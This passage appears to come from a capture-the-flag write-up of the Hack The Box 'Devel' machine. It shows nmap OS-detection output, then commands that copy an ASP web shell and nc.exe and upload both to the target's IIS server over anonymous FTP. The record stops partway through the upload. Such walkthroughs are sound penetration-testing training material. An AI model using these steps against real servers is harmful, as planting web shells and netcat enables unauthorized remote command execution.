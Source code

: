 ```bash
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   58.03 ms 10.10.14.1
2   62.19 ms 10.129.253.47

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds

```
The nmap scan returned information about anonymous logon.
So let's check if we can upload files.
Before uploading file we need to copy the files what we would like to upload to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ cp /usr/share/webshells/asp/cmd-asp-5.1.asp ./cmd.asp

┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .

```
Now we can logon anonymous to the FTP service and try to upload our files.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ ftp $ip -a
Connected to 10.129.253.47.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> bin
200 Type set to I.
ftp> put cmd.asp 
local: cmd.asp remote: cmd.asp
229 Entering Extended Passive Mode (|||49158|)
150 Opening BINARY mode data connection.
100% |***********************************************************************|  1181       11.61 MiB/s    00:00 ETA
226 Transfer complete.
1181 bytes sent in 00:00 (16.14 KiB/s)
ftp> put nc.exe 
local: nc.exe remote: nc.exe
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************| 59392      559.03 KiB/s    00:00 ETA
```